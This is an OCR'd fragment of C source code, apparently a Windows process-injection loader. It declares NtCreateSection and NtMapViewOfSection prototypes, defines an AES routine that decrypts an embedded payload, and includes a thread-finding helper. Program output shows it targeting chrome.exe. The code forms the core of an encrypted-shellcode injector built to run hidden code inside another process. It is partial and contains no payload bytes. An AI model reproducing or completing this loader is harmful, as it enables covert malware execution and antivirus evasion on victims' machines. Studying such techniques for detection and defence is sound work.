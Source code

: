 ```c
	IN PLARGE_INTEGER MaximumSize OPTIONAL,
	IN ULONG PageAttributess,
	IN ULONG SectionAttributes,
	IN HANDLE FileHandle OPTIONAL); 

// https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwmapviewofsection
// https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtMapViewOfSection.html
typedef NTSTATUS (NTAPI * NtMapViewOfSection_t)(
	HANDLE SectionHandle,
	HANDLE ProcessHandle,
	PVOID * BaseAddress,
	ULONG_PTR ZeroBits,
	SIZE_T CommitSize,
	PLARGE_INTEGER SectionOffset,
	PSIZE_T ViewSize,
	DWORD InheritDisposition,
	ULONG AllocationType,
	ULONG Win32Protect);
	
// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FSECTION_INHERIT.html
typedef enum _SECTION_INHERIT {
	ViewShare = 1,
	ViewUnmap = 2
} SECTION_INHERIT, *PSECTION_INHERIT;	


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
	HCRYPTPROV hProv;
	HCRYPTHASH hHash;
	HCRYPTKEY hKey;
	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
			return -1;
	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
			return -1;
	}
	if (!CryptHashData(hHash, (BYTE*) key, (DWORD) keylen, 0)){
			return -1;              
	}
	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
			return -1;
	}
	if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, (BYTE *) payload, (DWORD *) &payload_len)){
			return -1;
	}
	CryptReleaseContext(hProv, 0);
	CryptDestroyHash(hHash);
	CryptDestroyKey(hKey);
	return 0;
}



HANDLE FindThread(int pid){
	printf("[FindThread] for pid %d \n", pid);
	HANDLE hThread = NULL;
	THREADENTRY32 thEntry;
	thEntry.dwSize = sizeof(thEntry);
    HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	while (Thread32Next(Snap, &thEntry)) {
		//printf("[FindThread] : %d \n", thEntry.th32OwnerProcessID);
```

[FindProcess]: Process Found chrome.exe : PID 7688